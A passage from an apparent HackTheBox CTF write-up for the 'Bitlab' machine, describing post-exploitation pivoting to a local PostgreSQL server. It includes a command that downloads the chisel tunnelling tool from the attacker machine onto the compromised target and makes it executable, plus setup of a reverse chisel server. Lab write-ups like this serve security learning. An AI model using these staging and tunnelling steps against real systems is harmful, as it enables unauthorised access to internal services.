 
`PostgreSQL` servers usually run on port 5432, and we can see this port is open on the localhsot of the target. There is also port 3000 which seems to be running on a completlely different subnet. Running `ifconfig` shows the following interface:

![ifconfig-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/ifconfig-25.png)


We can see it's a docker interface, which is worth noting but we don't have permissions to interact with the docker instances as the `www-data` service account.  


Instead, I decided to focus on the `PostgreSQL` server. To interact with it, we need to use a client called `psql`, but it's not present on the target:

![which-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/which-26.png)


What we can do instead, is tunnel this port over to our attack machine and access it from there. To do that, we have to use a tool like [chisel](https://github.com/jpillora/chisel) because we dont have SSH access just yet.


I grab a copy of `chisel` to my working directory onmy attack machine, and host it up via a python web server:

```bash
pytho3 -m http.server 80
```

Then, I download it from the target as such:

```bash
cd \dev\shm
wget http://10.10.14.89/chisel; chmod +x chisel
```


Next, I start the `chisel` server on my attack machine with:

```bash
chisel server -p 4545 --reverse
```
